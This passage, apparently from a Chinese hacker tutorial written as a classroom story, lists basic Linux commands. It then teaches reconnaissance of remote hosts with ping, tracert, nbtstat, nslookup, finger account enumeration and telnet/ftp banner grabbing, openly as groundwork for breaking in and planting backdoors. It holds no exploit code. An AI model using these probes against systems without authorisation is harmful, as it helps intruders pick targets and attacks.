解压缩软件包 `telnet.tar.gz` 到当前目录下，因为带了 `z` 参数，`tar` 将自动调用 `gzip`。

```bash
tar -xzvf telnet.tgz
```

解压缩软件包 `telnet.tgz` 到当前目录下，因为带了 `z` 参数，`tar` 将自动调用 `gzip`。

#### 25. last

功能：显示过去有多少个用户或终端登录进系统。

使用格式：

```bash
last
```

显示过去登录进系统的用户或终端情况。

```bash
last -3 sagi
```

显示过去 3 次用户 `sagi` 登录进系统的情况。

#### 26. adduser

功能：添加用户。  
使用格式：

```bash
adduser -u 502 -g 500 -d /home/sagi -s /bin/bash -p 12345 admin
```

在系统内添加一个名为 `admin`、密码为 `12345` 的系统账号。`-u 502` 表示用户 ID 为 502，`-g 500` 表示组 ID 为 500，`-d /home/sagi` 表示默认工作目录为 `/home/sagi`，`-s /bin/bash` 表示默认运行的 shell 为 `/bin/bash`。

#### 27. passwd

功能：设置用户密码。  
使用格式：

```bash
passwd admin
```

为 `admin` 用户设置新密码，通常在添加了新账号后使用该命令为其设置口令。执行该命令后，提示我们输入新密码，如果密码太短或太简单，系统都会提示并不允许设置。

#### 28. ifconfig

功能：显示系统网络配置情况。  
使用格式：

```bash
ifconfig
```

显示系统网络配置情况，包括 IP 地址、子网掩码以及其他相关信息。该命令作用与 Windows 下的 `ipconfig` 类似，如图 2.23。

图 2.23

#### 29. su

功能：切换用户身份。

使用格式：

```bash
su test
```

改变当前身份为 `test` 用户，如需退出可使用 `exit` 命令返回以前的用户环境。这个命令和 Windows 系统下的 `runas` 功能有些类似。

#### 30. ftp

功能：与远程电脑进行文件传输。

使用格式：

```bash
ftp 192.168.0.254
```

连接远程开放了 ftp 服务的一台主机，其 IP 地址为 192.168.0.254，默认连接的是 ftp（21）端口。具体使用格式与 Windows 下 ftp 的使用一样。

#### 31. telnet

功能：登录远程系统。

使用格式：

```bash
telnet 203.206.86.22
```

远程登录 IP 地址为 203.206.86.22 的电脑，默认连接的是 telnet（23）端口。需要对方开启 telnet 服务，否则会登录不上。退出 telnet 登录状态，我们可以使用 `exit` 命令，或按 `Ctrl+C` 强行退出，和 Windows 下 telnet 的使用也是完全一样的。

#### 32. ssh

功能：登录远程系统。

使用格式：

```bash
ssh 192.168.0.109
```

远程登录 IP 地址为 192.168.0.109 的电脑，默认连接的是 ssh（22）端口，需要对方开启 ssh 服务，否则会登录不上。退出 ssh 登录状态，可以使用 `exit` 命令。

“好了，关于常用的系统命令我们就简单地介绍到这儿，对于那些没有安装 Linux 系统……”

图 2.24的同学，为了能够更好地掌握 Linux 下常用的系统命令，可以使用一款 Windows 下模拟 Linux 的程序 Metro Pipe VPM。解压后直接运行其中的 windows-start-pvpm.bat，程序就会自动为模拟 Linux 进行各种相应的配置了，如图 2.24。耐心地等待一会儿，模拟的 Linux 界面就出来了，如图 2.25。直接双击 ATerminal 就会弹出一个类似终端 shell 的窗口，在这个窗口下就可以执行各种 Linux 命令了，如图 2.26。



图 2.25



图 2.26

在这个模拟的 Linux 下，我们会发现鼠标被限制在了这个 Linux 里。如果想让鼠标回到 Windows 下可以使用的状态，可以使用 Alt+Tab 切换到 Windows 程序下，这时就会发现鼠标在 Windows 下可以使用了。要想再次让鼠标回到模拟的 Linux 下，可以使用 Ctrl+Shift+F 键来切换。好了，关于这些基础的命令在以后的入侵学习中都会经常使用到，希望大家在课后能够多多练习一下，有什么不懂的可以来找我。”

讲台上的 sagi 老师又继续讲道：“事实上，不管是 Windows 系统下的操作命令还是 UNIX/Linux 系统下的操作命令都是非常丰富的，它们的详细用法也许可以写一本书。限于篇幅我无法进行详细的介绍，在此只能将其中最常用到的一些基础命令来进行简单的讲解了。在 Windows 系统下我们可以通过 help 命令来了解 Windows 下系统命令的详细用法，而在 UNIX/Linux 系统下，我们可以通过 man 命令来了解 UNIX/Linux 下系统命令的详细用法。好了，这节课到此为止，下课，放学！”

## 第三章 入侵从这儿开始——远程主机的信息刺探

第二天一大早，当 sagi 老师哼着歌儿兴冲冲地刚一走进教室，就发现平时总是迟到的阿呆他们居然早已经等候在了教室里。这可是好现象，难道是自己讲的课太吸引人了？想到这儿，sagi 老师高兴地说道：“各位菜同学能够这么早地来到教室，真是令我太……”

话没说完，就听台下的阿黑站起来说道：“前几节课，sagi 老师给我们讲的都是一些基础知识。现在，总该教我们如何入侵别人的电脑了吧？”“就是，就是，再不教的话，就马上罢课、退学、退款。”其余小菜纷纷嚷道。

这回该轮到讲堂上的 sagi 老师着急了：“各位菜同学先不要着急。饭要一口一口吃，路要一步一步走，入侵自然也要一步一步来学习嘛。”顿了一下，sagi 老师又继续讲道：“中国有句俗话叫‘知己知彼，百战不殆’，就是说我们既要知道自己的水平与实力，同样也要清楚地了解对方的水平与实力，这样在与对方的较量中才能够战胜对方。黑客在决定入侵某个目标前通常也需要尽可能多地了解对方的一些基本情况，然后才能够对症下药，找出有效的入侵方法。”

这时，就见台下的阿菜举手问道：“sagi 老师，哪些基本情况才是我们需要了解的呢？”

“诸如对方使用的是哪种操作系统及版本，开放的服务和相应的端口以及这些服务的类型及版本，是否存在什么漏洞等等。对于黑客来讲，只有更好地了解了这些信息，才可以正确地作出选择，选择使用何种攻击方法，或是选择使用哪个攻击程序，以使自己的入侵能够达到事半功倍的效果。我通常把获取这些信息的过程叫做对远程主机的信息刺探。”台上的 sagi 老师又说道，“黑客的入侵过程通常是这样的：先对远程主机进行信息刺探，获取足够多的信息，来判断对方可能存在的安全漏洞，然后利用相应的工具入侵进去，获取自己想要的文件或是上传木马、后门程序来达到控制对方的目的。”

这时，阿虫又问道：“那我们要如何才能获取这些有用的信息呢？”

“事实上，在我们使用的操作系统中有许多命令都是可以获取这些信息的。”sagi 老师回答道。

## 3.1 系统命令也来获取远程主机的相关信息

#### 3.1.1 ping

这个命令的作用主要是用于测试与远程主机是否可以建立物理连接以及连接的速度，默认每次向远程主机发送四个数据包，然后判断其返回的情况。如果出现“Reply from ***.***.***.***: bytes=** time=***ms TTL=***”，就说明我们与远程主机可以建立连接。而如果出现“Request timed out”的提示，就说明与远程主机无法建立连接，有可能是硬件上的问题，也有可能是因为远程主机上安装有网络防火墙拦截了我们发出的请求。

ping 命令在局域网中使用得较多，而在 Internet 上，其更大的作用则是通过远程主机的域名来获得其 IP 地址。使用格式为 **ping 域名或 IP 地址**，如图 3.1。根据网站的域名 www.sagi.net.cn，我们成功得到了对方的 IP 地址为 61.152.251.212。另外，根据返回的 TTL 值，我们也可以简单地判断对方主机所使用的操作系统类型。通常 TTL 值在 100—130 之间为 Windows 系统，而在 50—64 或 240—255 之间为 UNIX/Linux 系统。不过，利用 TTL 值来判断操作系统类型是极不准确的，因为可以通过修改注册表来达到修改 TTL 值的目的，所以这个值仅作参考。如果我们使用 **ping -t 域名或 IP 地址** 这种格式，则程序会一直向远程主机发送数据包。



图 3.1

利用 **ping** 命令我们还可以得到对方计算机的名称，这个也是很有用的。命令格式是 **ping -a 域名或 IP 地址**，如图 3.2，ZYQQ 就是对方的计算机名。当然，也不是所有的主机都可以得到对方的计算机名。



图 3.2

在 UNIX/Linux 系统下，ping 命令的使用格式类似，不同的是程序会一直向远程主机发送数据包，就像“ping -t”格式一样，而不是只发送四个数据包，如图 3.3，可以按 Ctrl+C 来结束程序。

#### 3.1.2 tracert/traceroute

**tracert** 命令的作用主要是用来测试本机到远程主机间所经过的路由，命令格式为 **tracert 域名或 IP 地址**，如图 3.4。可以看到，我们的电脑到达 www.sagi.net.cn 主机一共经过了 15 个路由。这个命令对于追踪攻击者还是很有用的。在 UNIX/Linux 下，这个命令为 traceroute，其使用的格式与 Windows 系统下的 tracert 命令类似，如图 3.5。



图 3.3



图 3.4



图 3.5

#### 3.1.3 nbtstat

这个命令的作用可以获取远程 Windows 系统的计算机名、工作组名、MAC 地址等信息，使用格式为 **nbtstat -a 远程计算机名** 或 **nbtstat -A IP 地址**，如图 3.6。



图 3.6

#### 3.1.4 nslookup

这个命令的作用主要是查询节点名和 IP 地址的对应关系，使用格式为 **nslookup 节点名或 IP 地址**，如图 3.7。



图 3.7

#### 3.1.5 finger

finger 命令可以连接远程开启了 finger 服务的主机（finger 服务默认使用的是 79 端口），并得到对方系统内合法的用户帐号。其使用格式为 **finger 用户名@IP**，如图 3.8。根据返回的信息，我们知道 root 就是 192.18.0.22 主机中存在的一个合法帐号，以及该用户默认的工作目录是 /root，默认使用的 shell 为 /bin/bash 等；而如果没有该帐号的话，则会提示我们 “no such user”。在 UNIX/Linux 系统下，finger 命令的使用格式类似。

#### 3.1.6 telnet

telnet 命令的作用主要是进行远程登录。不过，对于入侵者来说，这个命令更有效的一个作用则是根据远程主机的返回信息来判断使用的操作系统类型及版本。其使用的格式为 **telnet 对方域名或 IP 地址 连接端口**，默认连接的是 23 端口。如图 3.9，对方的返回信息“Microsoft Telnet Client”（微软 Telnet 客户端）已经告诉了我们，192.168.0.123 这台主机使用的是 Windows 系统。而根据图 3.10 返回的信息，我们知道 192.168.0.22 这台主机使用的是 Red Hat Linux 9.0 系统，并且其内核版本号为 2.4.20-8。







> **小知识：UNIX/Linux 的种类**
>
> UNIX 是一种诞生于上世纪六七十年代的优秀网络操作系统，UNIX 诞生时，Windows 系统连影子都还没有呢。即使今日，UNIX 系统仍然广泛地应用于 Internet 的大中小型服务器上。UNIX 有众多的版本，比如伯克利大学的 BSD 系统（BSD 系统主要又有 FreeBSD、NetBSD、OpenBSD 三种），SUN 公司的 SunOS/Solaris 系统，IBM 公司的 AIX 系统，SGI 公司的 IRIX 系统，惠普公司的 HP-UX 系统等等。而 Linux 是上世纪九十年代才诞生的一种类 UNIX 操作系统，其遵循的标准完全和 UNIX 一样。不过，与那些大型的商业操作系统相比，Linux 是完全免费、共享的。Linux 也有众多的版本，比如 RedHat Linux、Debian GNU/Linux、Mandrake Linux、Slackware Linux、SuSE Linux 等等。以后当大家再看到这些操作系统名字的时候，就不会感到陌生了。

#### 3.1.7 ftp

ftp 命令的作用主要是登录到远程 FTP 主机，进行文件传输操作。对于攻击者来说，另一个主要的作用就是可以获取远程 FTP 主机所使用的 FTP 组件类型及版本。命令格式为 **ftp 域名或 IP 地址 连接端口**，默认使用的是 21 端口，如图 3.11。根据返回的信息，我们可以知道对方 FTP 使用的是 Serv-U 6.3，Serv-U 可是目前 Windows 系统中使用最多的 FTP 服务组件哟。

